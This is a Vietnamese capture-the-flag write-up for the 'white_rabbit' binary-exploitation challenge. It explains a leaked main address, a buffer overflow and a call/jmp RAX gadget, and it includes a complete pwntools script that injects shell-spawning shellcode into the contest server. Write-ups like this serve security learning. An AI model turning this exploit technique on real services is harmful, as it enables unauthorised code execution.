reverse : 


- được tặng địa chỉ hàm main luôn , ngon =)))

![image](https://hackmd.io/_uploads/B1B82sWV1g.png)

- follow : 

có bug BOF luôn , và ta cũng có thể bypass được PIE 

![image](https://hackmd.io/_uploads/Bk9Fnj-EJg.png)

EXPLOIT : 

hướng khai thác của bài này khá rõ ràng , NX tắt -> có địa chỉ binary -> ta sẽ dùng shellcode ở bài này 

dữ liệu sẽ được nhập ở RAX  -> ta sẽ kiếm các gadget liên quan đến RAX như `call jump`

![image](https://hackmd.io/_uploads/rJz_Tj-Nyg.png)


có cả 2 nên dùng cái nào cũng được : 

![image](https://hackmd.io/_uploads/r12j6oW4kg.png)


script : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./white_rabbit')
p = remote('whiterabbit.chal.wwctf.com', 1337)
shellcode = asm(shellcraft.sh())
shellcode = shellcode.ljust(120,b'\x90')
p.recvuntil(b'> ')
leak = int(p.recvline()[:-1],16)
print(hex(leak))

exe.address = leak - exe.sym.main
print(hex(exe.address))
input()
p.sendline(shellcode + p64(0x00000000000010bf+exe.address))


p.interactive()
```



## reverb

